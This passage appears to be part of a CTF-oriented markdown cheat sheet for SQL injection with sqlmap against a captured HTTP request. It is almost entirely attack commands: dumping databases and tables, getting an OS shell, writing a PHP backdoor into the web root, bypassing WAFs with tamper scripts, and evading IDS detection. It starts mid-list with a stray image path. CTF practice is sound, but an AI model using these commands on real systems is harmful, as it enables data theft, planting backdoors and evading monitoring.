2. **Right-click → Save to File** (e.g., `search.req`)

---

#### 🚀 Running SQLMap on the Captured Request

```bash
sqlmap -r search.req --batch --force-ssl
```
- `-r`: Use raw HTTP request file.
- `--batch`: Run without interactive prompts.
- `--force-ssl`: Useful for HTTPS endpoints.

---

### 🎯 Pro Tips for CTFs:

- **Extract full DB structure:**
```bash
sqlmap -r search.req --dbs
sqlmap -r search.req -D <db_name> --tables
sqlmap -r search.req -D <db_name> -T <table_name> --dump
```

- **Enumerate current DB, user, and version:**
```bash
sqlmap -r search.req --current-db
sqlmap -r search.req --current-user
sqlmap -r search.req --banner
```

- **OS Shell or File Write:**
```bash
sqlmap -r search.req --os-shell
sqlmap -r search.req --file-write=backdoor.php --file-dest=/var/www/html/backdoor.php
```

- **Test specific parameter (if request has multiple):**
```bash
sqlmap -r search.req -p search
```

- **Bypass WAFs:**
```bash
--tamper=space2comment,randomcase
```

- **Use cookies (if session required):**
```bash
sqlmap -r search.req --cookie="PHPSESSID=<COOKIE>"
```

- **Avoid IDS detection:**
```bash
--random-agent --delay=1 --threads=1
```

---
